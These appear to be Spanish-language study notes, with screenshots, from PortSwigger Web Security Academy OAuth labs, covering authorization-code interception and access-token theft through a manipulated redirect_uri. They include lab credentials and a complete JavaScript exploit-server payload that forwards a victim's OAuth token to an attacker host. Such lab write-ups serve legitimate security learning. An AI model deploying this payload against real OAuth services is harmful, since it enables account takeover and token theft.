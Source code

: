 ![[Pasted image 20240225135500.png]]

Se lo mandamos a la víctima y nos deslogearemos #importante

Captamos una petición de IP diferente con un code

![[Pasted image 20240225140417.png]]

Mandamos la petición de callback al repeater, cambiamos ese código por wel del access log, copio la url y la pego en firefox

![[Pasted image 20240225140451.png]]

Done

![[Pasted image 20240225140400.png]]

### Lab - robando tokens oAuth vía redireccionamiento

  

Me logeo con `wiener:peter` y capturo todas las URL posibles.

En la siguiente captura, es una redirección que si ponemos una de las imágenes de la web haciendo ese path traversal y DROPeamos la petición nos redirecciona directamente

![[Pasted image 20240221122020.png]]

Vemos que nos da el TOKEN en la URL

![[Pasted image 20240221121939.png]]

En el servidor de exploit pondremos esto y lo salvaremos:

<script>

    if (!document.location.hash) {

        window.location = 'https://oauth-0a1a00a9046eb10580500b4102260021.oauth-server.net/auth?client_id=c8ktbbcdbeprwfzjxrr5l&redirect_uri=https://0ad7007f0439b10580960de600540028.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ad100fb042fb1ea80670cb7017200c6.exploit-server.net/exploit&response_type=token&nonce=187647876&scope=openid%20profile%20email'

    } else {

        window.location = '/?'+document.location.hash.substr(1)

    }

</script>

  

El servidor recibe peticiones y toma acción como usuario `admin`

Esto abre una ventana y se posiciona en el server oauth al que la app solicita y haremos la redirección al servidor de exploit, al mandárselo recibiremos en el server de registro un token.

![[Pasted image 20240221203403.png]]
